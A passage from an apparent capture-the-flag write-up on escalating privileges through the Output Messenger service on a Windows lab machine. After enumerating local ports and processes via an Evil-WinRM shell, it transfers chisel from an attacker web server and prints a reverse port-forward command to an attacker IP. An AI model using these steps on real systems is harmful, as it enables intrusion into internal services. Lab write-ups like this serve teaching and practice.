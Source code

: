 ## Privilege Escalation - Output Messenger

Looking at the services running locally, we can see that some unusual ports are on a listening or established state, such as `14121` and `14122`, which are not common ports for Windows services. 

```bash
*Evil-WinRM* PS C:\users\m.harris> netstat -ano | select-string "127.0.0.1"

<SNIP>
  TCP    127.0.0.1:14121        127.0.0.1:49805        ESTABLISHED     4184
  TCP    127.0.0.1:49805        127.0.0.1:14121        ESTABLISHED     6232
<SNIP>
```

To get a better Idea what could be running on these ports, we can use the `get-process` command to see what processes are running on those ports.

```powershell
*Evil-WinRM* PS C:\users\m.harris> get-process -Id 4184

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    868      87    95736     128088              4184   0 OMServerService

*Evil-WinRM* PS C:\users\m.harris> get-process -Id 6232

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1026      93   114536      20532              6232   0 OutputMessenger
```

We see `OMServerService and OutputMessenger` processes running, which are part of the `Output Messenger` software, which is a messaging software that allows users to communicate with each other in real-time.

Looking at the documentations of the software, we can see the ports used by the software. 

[Server-Install-Faq](https://support.outputmessenger.com/server-install-faq/)
![NON](file-20250605125833973.png)

### Port Forwarding

We can send the `chisel` tool to the target machine for port forwarding, so we can access the `Output Messenger` software. To do that, we set up a `python web server` on our host machine and then download it to the target machine using `curl` (alias to `Invoke-WebRequest`)

![NON](file-20250606140437023.png)

With `chisel` on the box, we can port forward all of the needed ports to our host machine so we can interact with it. 

From the documentation, we see that the `Output Messenger` uses the ports `14121`, `14122`, `14123`, `14124` for its services, so we can port forward all of them to our host machine.

```bash
printf "chisel client 10.10.14.24:8081 "; for port in {14121..14124};do printf "R:$port:127.0.0.1:$port ";done

chisel client 10.10.14.24:8081 R:14121:127.0.0.1:14121 R:14122:127.0.0.1:14122 R:14123:127.0.0.1:14123 R:14124:127.0.0.1:14124 %
```
